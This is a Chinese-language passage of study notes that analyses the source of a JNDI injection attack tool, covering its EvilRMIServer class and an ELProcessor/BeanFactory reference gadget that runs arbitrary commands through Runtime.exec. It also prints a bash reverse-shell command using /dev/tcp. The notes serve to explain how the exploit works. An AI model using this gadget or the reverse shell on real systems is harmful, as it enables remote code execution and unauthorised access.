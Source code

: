 * string.format ：用于字符串格式化
  * %s     字符串类型
  * %d     整数类型（十进制）

相当于建立了一个tcp连接

执行完结果是：

```txt
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1		//建立127.0.0.1:6666 tcp连接
```

* 即用来执行反弹shell



继续：`EvilRMIServer.java`

```java
System.setProperty("java.rmi.server.hostname",ip);
```

* `setProperty`：设置指定键对值的系统属性
  * 总的来说就是rmi服务器ip设置
  * 原理：rmi server会将`java.rmi.server.hostname`的值传递给客户端，客户端根据得到的值去查找服务。

* 即：此时的服务器目标是：IP,然后通过客户端去查找IP的的服务



#### ExecByEL

```java
registry.bind("ExecByEL",evilRMIServer.execByEL());   //// 将evilRMIServer.execByEL() 注册到registry , 然后与ExecByEL 绑定
```

* `bind`：绑定对此注册表中指定 `name` 的远程引用。
  * 此时就是：ExecByEL，然后是当前类中方法的调用



##### 分析：execByEL

```java
    public ReferenceWrapper execByEL() throws RemoteException, NamingException{

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", String.format(
                "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(" +
                        "\"java.lang.Runtime.getRuntime().exec('%s')\"" +
                        ")",
                commandGenerator.getBase64CommandTpl()
        )));
        return new ReferenceWrapper(ref);
    }
```
